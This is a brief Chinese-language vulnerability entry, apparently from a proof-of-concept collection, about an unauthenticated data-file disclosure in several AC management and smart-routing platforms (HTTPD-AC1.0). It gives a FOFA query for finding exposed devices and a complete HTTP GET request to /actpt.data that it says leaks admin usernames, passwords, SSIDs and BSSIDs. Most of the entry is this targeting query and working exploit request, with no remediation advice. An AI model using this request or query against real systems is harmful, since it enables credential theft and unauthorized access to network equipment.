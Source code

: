 # AC集中管理平台未授权漏洞

多款AC集中管理平台、智能AC管理系统、智能路由系统(HTTPD-AC1.0服务)均被发现存在严重的未授权访问安全漏洞。此漏洞允许攻击者未经授权地直接访问多个data文件，进而非法获取包括AC用户名、密码、SSID（服务集标识符）、AP BSSID（接入点基站标识符）等在内的敏感及关键信息，对系统安全构成重大威胁。

## fofa

```javascript
header="HTTPD_ac 1.0"
```

## poc

```javascript
GET /actpt.data HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
```

![2564642ff99c1ab0e34d89aaf507ef65](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409171614315.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/C7YKQlMtzWhC29M3F17CiQ